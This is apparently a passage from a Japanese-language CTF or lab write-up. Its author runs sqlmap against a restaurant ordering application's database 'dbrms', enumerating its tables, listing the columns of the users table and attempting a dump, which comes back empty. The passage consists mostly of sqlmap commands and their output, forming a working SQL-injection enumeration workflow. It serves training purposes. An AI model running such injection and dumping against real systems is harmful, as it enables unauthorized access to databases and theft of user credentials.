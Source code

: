 テーブル名特定

```sh
$ sqlmap -r reserve.txt -D dbrms --tables --batch

Database: dbrms
[20 tables]
+----------------------+
| tables               |
| billing_details      |
| cart_details         |
| categories           |
| currencies           |
| food_details         |
| members              |
| messages             |
| orders_details       |
| partyhalls           |
| pizza_admin          |
| polls_details        |
| quantities           |
| questions            |
| ratings              |
| reservations_details |
| specials             |
| staff                |
| timezones            |
| users                |
+----------------------+
```

列名特定

```sh
$ sqlmap -r reserve.txt -D dbrms -T users --columns --batch

Database: dbrms
Table: users
[4 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| email    | varchar(100) |
| id       | smallint(6)  |
| password | varchar(32)  |
| username | varchar(30)  |
+----------+--------------+
```

ダンプ。usersテーブルは空っぽ。忍耐忍耐。

```sh
$ sqlmap -r reserve.txt -D dbrms -T users --dump --batch

Database: dbrms
Table: users
[0 entries]
+----+-------+----------+----------+
| id | email | password | username |
+----+-------+----------+----------+
+----+-------+----------+----------+
```
